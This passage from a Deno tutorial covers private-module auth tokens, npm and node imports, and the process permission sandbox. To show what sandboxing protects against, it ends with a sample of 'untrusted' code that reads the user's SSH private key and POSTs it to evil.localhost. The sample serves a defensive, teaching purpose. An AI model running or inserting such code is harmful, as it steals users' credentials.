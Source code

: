 > In real life scenarios you would use [Deno's integrity checking](https://deno.land/manual@v1.31.1/basics/modules/integrity_checking) with lock files.

### Private modules

It is possible to fetch private modules. Deno needs to authenticated with the remote server. You just need to set an environment variable like 

```
DENO_AUTH_TOKENS=abc123@deno.land
```

and now every HTTP request to fetch module from deno.land host will include an `Authorization` header with `Bearer abc123` value.

### NPM

While Deno is purposefully built not to require NPM at all they are hard at work to provide a compatibility layer in case you want to use NPM dependencies or Node.js built-in modules. In either case you do need to add an `npm:` or `node:` specifier to the import path.

```ts
// You can import NPM dependencies directly.
import chalk from "npm:chalk@5";
console.log(chalk.green("Hello!"));
```

```ts
// You can import Node.js built-in modules directly. 
import { readFileSync } from "node:fs";
console.log(readFileSync("deno.json", { encoding: "utf8" }));
```


## Sandbox

Let's talk more about Deno's sandbox. Deno provides us with [capability-based permissions](https://deno.land/manual@v1.31.1/basics/permissions) that apply to a whole process. This is what we saw earlier when we tried to write to a file. Deno required us to specify `allow-write` permission. These permissions apply to all modules within a process.

What if you want to execute untrusted code as part of your application? You can either just run it and hope for the best (e.g editor plugins) or you can run the code inside Docker containers. Now there is one more option: Deno. With Deno it becomes much simpler and more lightweight.

How do we execute untrusted code?

There are two options. First, is to run a subprocess with a different permission set.

```ts
// user-code.ts
// This is untrusted user-code that we want to execute safely.

const privateKey = await Deno.readFile(Deno.env.get("HOME") + "/.ssh/id_ed25519");
await fetch('http://evil.localhost', {
  method: 'POST',
  body: privateKey
});
```

